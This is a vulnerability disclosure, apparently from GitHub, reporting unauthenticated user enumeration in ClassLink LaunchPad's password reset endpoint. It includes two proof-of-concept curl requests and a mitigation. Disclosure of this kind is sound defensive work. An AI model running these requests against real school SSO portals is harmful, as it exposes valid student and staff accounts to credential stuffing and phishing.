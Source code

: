 # ClassLink User Enumeration Vulnerability (Unauthenticated)

## Summary

A user enumeration vulnerability was discovered in the ClassLink LaunchPad password reset feature. By sending a `POST` request to the `/user/resetpassword/options` endpoint with different usernames, it is possible to distinguish valid accounts based on the application's response. This behavior allows attackers to enumerate valid usernames, which could be used in further attacks like credential stuffing or phishing.

## Affected System

- **Product:** ClassLink LaunchPad (SSO Portal)
- **Vendor:** ClassLink, Inc.
- **Tested As Of:** July 2025
- **Version:** Unknown (cloud-hosted)

## Vulnerability Details

POST /user/resetpassword/options

- A **valid username** returns a response containing a verification token.
- An **invalid username** returns: `"Password Recovery is not set up"`

This difference allows attackers to enumerate users without authentication.

curl -X POST https://<target-domain>/user/resetpassword/options \
     -d "username=valid.user" \
     -H "Content-Type: application/x-www-form-urlencoded"

Expected: JSON response containing a verificationToken.

curl -X POST https://<target-domain>/user/resetpassword/options \
     -d "username=invaliduser" \
     -H "Content-Type: application/x-www-form-urlencoded"

Expected: "Password Recovery is not set up"

Impact

    Allows attackers to discover valid usernames.

    Increases risk of password spraying, credential stuffing, and phishing attacks.

    Particularly sensitive due to use in K–12 educational environments.

Mitigation

The server should return the same generic response for both valid and invalid usernames to prevent enumeration.
Disclosure

    Reported by: KJ Morrison (Independent Security Researcher)


<img width="1409" height="566" alt="Screenshot 2025-07-24 at 2 35 10 PM" src="https://github.com/user-attachments/assets/60b2903b-6944-4a0e-806b-7fc438639b7a" />
<img width="492" height="210" alt="image" src="https://github.com/user-attachments/assets/1152005f-7d27-4339-bf59-acd183c67989" />

